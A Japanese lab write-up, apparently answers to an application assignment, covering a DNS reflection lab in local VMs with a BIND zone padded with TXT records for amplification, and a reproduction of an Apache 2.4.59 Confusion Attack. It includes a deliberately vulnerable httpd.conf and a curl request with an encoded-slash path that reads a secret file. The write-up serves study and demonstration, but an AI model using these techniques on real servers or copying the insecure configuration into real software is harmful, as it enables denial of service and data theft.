

# Q.3(DNS reflection)

ホストOS: Linux

仮想化管理: Virtual Machine Manager（libvirt + QEMU/KVM）

Virtul Machine Manager を使用します。

以下のようにIPアドレスをそれぞれのコンピュターに割り当てる

| 仮想マシン名 | IPアドレス | 用途 |
| --- | --- | --- |
| attacker | すでに割り当てられているものを使う(今回は 192.168.11.25) | scapy による ANY＋EDNS0 クエリ をする |
| victim | 192.168.11.100 | 被害者（偽装される） |
| dns-server | 192.168.11.53 | BIND9でDNSサーバーとして振る舞う。大量のTXT/Aを返す。  |

**２つのゲストOSは仮想ブリッジ `br0` で接続する。**

br0は下のコマンドで作成する。

```bash
sudo ip link add name br0 type bridge
sudo ip link set dev br0 up
sudo ip link set dev enp3s0 master br0  # enp3s0が物理NIC
```

Virtual Machine Manager側でゲストOSがbr0を使用するようにする。

DNSサーバーのシステムのインストールを行います。

```bash
sudo apt install bind9
sudo systemctl start named
```

そしてDNSサーバー側でドメイン takkesan.com に対するゾーンを追加し、大量のレコードが返るようにします。

/etc/bind/db.takkesan.com

```bash
$TTL    604800
@       IN      SOA     ns1.takkesan.com. admin.takkesan.com. (
                          2024052005 ; Serial
                          604800     ; Refresh
                          86400      ; Retry
                          2419200    ; Expire
                          604800 )   ; Negative Cache TTL
;

@       IN      NS      ns1.takkesan.com.
@       IN      A       192.168.11.53
ns1     IN      A       192.168.11.53
www     IN      A       192.168.11.53
mail    IN      A       192.168.11.53
@       IN      MX 10   mail.takkesan.com.

;
@ IN TXT "It was at dusk on a certain day. A lone servant was waiting for the rain to stop under the Rashomon gate."
@ IN TXT "Under the wide gate, there was no one except this man. Only a single cricket rested on a large pillar,"
@ IN TXT "partially stripped of red lacquer. Considering that Rashomon stood on Suzaku Avenue,"
@ IN TXT "there should have been two or three more people, wearing straw hats or soft eboshi,"
@ IN TXT "also waiting for the rain to stop. Yet, there was no one else but this man."
@ IN TXT "The reason was that, in the past two or three years, Kyoto had suffered from a series of disasters earthquakes, whirlwinds,"
@ IN TXT "fires, and famines. As a result, the decline of the city was beyond description. According to old records,"
@ IN TXT "people smashed Buddhist statues and altar fittings, stripping off their red lacquer and gold or silver leaf,"
@ IN TXT "then piled up the wooden remains on the roadside and sold them as firewood. With that being the state of the capital,"

host1    IN      A       192.0.2.0
host2    IN      A       192.0.2.1
host3    IN      A       192.0.2.2
host4    IN      A       192.0.2.3
host5    IN      A       192.0.2.4
host6    IN      A       192.0.2.5
host7    IN      A       192.0.2.6
host8    IN      A       192.0.2.7
```

/etc/bind/named.conf.local

```bash
zone "takkesan.com" {
    type master;
    file "/etc/bind/db.takkesan.com";
};
```

被害者側でポート53番を一応開けておきます。

```bash
sudo ufw allow 53/udp
```

攻撃者側でWiresharkを起動してbr0を選択します。
入力フィールドにdnsと入力してDNS関連の通信のみを表示するようにします。

攻撃者側でmain.pyのスクリプトをrootで実行します。

# 結果の概要
Wiresharkの検索欄にdnsと入力してフィルターをかけています。


通常の問い合わせの場合
normal_request_by_dig.pcapng


IPアドレスを詐称して攻撃する場合
dns_reflection.pcapng


結果のまとめ、考察については応募課題のエントリーフォームに入力しています。

---

# Q.4 (Cofussion Attack)

バージョン: Apache HTTPサーバー 2.4.59
Docker: Docker version 28.1.1, build 4eba377327

httpd.conf
```bash
# User configuration
# 1) エンコードされたスラッシュを許可しデコードさせる
AllowEncodedSlashes On

# 2) 任意閲覧を許可するディレクトリ
<Directory "/var/user">
    Require all granted
</Directory>

# 3) 既存の RewriteRule はそのまま
RewriteEngine on
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"
```

## 結果の概要

通常のリクエストとConfusion攻撃を利用したリクエストの両方を試した結果です。

```bash
curl http://localhost:8080/user/orange
    profile.yml

curl http://localhost:8080/user/orange%2Fsecret.yml%3F
    password: super_secret

curl http://localhost:8080/user/orange/secret.yml
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    </body></html>
```

結果のまとめ、考察については応募課題のエントリーフォームに入力しています。
